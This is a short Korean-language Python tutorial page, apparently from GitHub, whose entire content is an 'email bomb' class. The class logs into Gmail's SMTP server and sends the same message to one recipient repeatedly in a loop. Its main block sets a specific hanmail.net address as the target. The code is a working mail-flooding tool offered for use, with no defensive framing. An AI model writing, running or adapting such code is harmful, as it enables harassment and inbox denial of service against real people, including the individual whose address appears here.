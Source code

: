## 08. 파이썬 현실반영

### 08-1. email bomb

```python
# -*- coding: utf-8 -*-

from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import smtplib, threading

ID = "ID"
PW = "PW"

class EmailBomb(object):
    def __init__(self, id, pw, *,
                    charset="utf-8",
                    server="smtp.gmail.com",
                    port=465):
        self._id = id
        self._pw = pw
        self._charset = charset
        self._server = server
        self._port = port
    
    def set_content(self, title, content):
        self._title = title
        self._content = content
    
    def set_my_name(self, name):
        self._name = name
    
    def set_target(self, target):
        self._target = target

    def bomb(self, *, _amount=1, _msg=None):
        msg = MIMEMultipart()

        msg["Subject"] = self._title
        msg["From"] = self._name
        msg["To"] = self._target
        
        txt = MIMEText(_text=self._content, _charset=self._charset)
        msg.attach(txt)

        msg_str = msg.as_string()
        
        s = smtplib.SMTP_SSL(self._server, self._port)
        s.login(self._id, self._pw)

        for i in range(_amount):
            s.sendmail(self._id, self._target, msg_str)

            if _msg is not None:
                print(_msg.format(i + 1))
        
        s.close()

if __name__ == "__main__":
    bomb = EmailBomb(ID, PW)

    bomb.set_my_name("BOBGAGOSIPDA")
    bomb.set_target("skyjjw79@hanmail.net")
```